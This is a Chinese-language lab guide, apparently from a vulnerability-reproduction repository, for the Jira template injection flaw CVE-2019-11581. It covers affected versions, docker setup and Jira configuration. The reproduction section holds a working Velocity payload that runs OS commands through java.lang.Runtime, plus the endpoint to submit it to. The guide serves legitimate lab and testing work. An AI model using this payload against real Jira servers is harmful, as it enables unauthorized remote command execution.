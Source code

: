 # Atlassian Jira 模板注入漏洞（CVE-2019-11581）

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。
多个版本前存在利用模板注入执行任意命令：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

参考资料：

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw

## 环境搭建

执行如下命令启动一个Jira Server 8.1.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

![](7.png)

添加 SMTP 电邮服务器 `/secure/admin/AddSmtpMailServer!default.jspa`

![](8.png)

进入系统设置 `/secure/admin/ViewApplicationProperties.jspa` ，开启“联系管理员表单”

![](9.png)

貌似还要有项目才能玩，所以随便创建一个示例就行了,然后你就可以愉快的玩耍了

## 漏洞复现

PoC 和 CVE-2019-3396 一样

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

Linux 没有 calc, 所以

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

运行 `poc.py` 

或者

进入 `/secure/ContactAdministrators!default.jspa` 直接提交 PoC

![](11.png)

![](12.png)

如果没看到 smtpd 有数据，那么就可能卡队列了

电邮队列瞅一瞅 `/secure/admin/MailQueueAdmin!default.jspa`

![](13.png)
